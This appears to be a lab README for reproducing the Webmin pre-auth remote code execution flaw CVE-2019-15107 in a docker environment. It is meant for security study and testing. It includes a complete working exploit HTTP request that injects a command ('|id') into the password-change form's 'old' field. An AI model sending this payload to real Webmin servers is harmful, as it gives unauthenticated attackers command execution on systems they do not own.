

# Webmin Pre-Auth Remote Code Execution (CVE-2019-15107)

[中文版本(Chinese version)](README.zh-cn.md)

Webmin is a web-based system configuration tool for Unix-like systems. The vulnerability exists in the password reset page, which allows unauthenticated users to execute arbitrary commands through a simple POST request.

Referrers:

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## Start Vulnerability Application

Start a vulnerable Webmin 1.910 through following command:

```
docker-compose up -d
```

After the environment is started, you can see the login page of Webmin at `https://your-ip:10000`.

## Vulnerability Reproduce

The payload of the reference links is incomplete. After reading the code in depth, I found that command can be executed only if the user parameter of the body doesn't exist before 1.920, upon 1.920, no limit.

In short, sending a following POST request to execute command `id`:

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```


